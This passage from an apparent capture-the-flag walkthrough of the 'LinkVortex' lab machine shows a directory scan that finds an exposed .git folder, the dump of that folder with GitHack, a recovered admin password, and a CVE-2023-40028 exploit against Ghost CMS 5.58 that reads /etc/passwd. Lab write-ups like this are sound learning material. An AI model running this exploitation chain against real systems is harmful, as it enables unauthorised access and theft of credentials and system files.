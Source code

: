 The `/ghost/` route leads to a login page.

Perform a directory scan on **dev.linkvortex.htb**:

```bash
[root@kali] /home/kali/LinkVortex
❯ dirsearch -u dev.linkvortex.htb -t 50 -i 200
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See [https://setuptools.pypa.io/en/latest/pkg_resources.html](https://setuptools.pypa.io/en/latest/pkg_resources.html)
  from pkg_resources import DistributionNotFound, VersionConflict
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460
Output File: /home/kali/LinkVortex/reports/_dev.linkvortex.htb/_24-12-09_10-27-46.txt
Target: [http://dev.linkvortex.htb/](http://dev.linkvortex.htb/) Starting: 200 - 557B  - /.git/ 200 - 73B  - /.git/description 200 - 201B  - /.git/config 200 - 41B  - /.git/HEAD 200 - 620B  - /.git/hooks/ 200 - 402B  - /.git/info/ 200 - 240B  - /.git/info/exclude 200 - 401B  - /.git/logs/ 200 - 175B  - /.git/logs/HEAD 200 - 418B  - /.git/objects/ 200 - 393B  - /.git/refs/ 200 - 147B  - /.git/packed-refs 200 - 691KB - /.git/index
```

-----

## GitHack

There is a Git leak. Use the **GitHack** tool to pull it down.

```bash
[root@kali] /home/kali/LinkVortex/GitHack (master) ⚡
❯ python GitHack.py -u "[http://dev.linkvortex.htb/.git/](http://dev.linkvortex.htb/.git/)"
```

Some **password** keywords can be found within the leaked files. The first password found allows for a successful login.

  * **Username:** `admin@linkvortex.htb`
  * **Password:** `OctopiFociPilfer45`

Successfully entered the backend.

Using **Wappalyzer**, the current **Ghost CMS** version is **5.58**.

-----

## User

### CVE-2023-40028

Searching on Google reveals this exploit:
[github author="0xyassine" project="CVE-2023-40028"][/github]
This requires some modifications to the script.

```bash
[root@kali] /home/kali/LinkVortex/CVE-2023-40028 (master) ⚡
❯ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```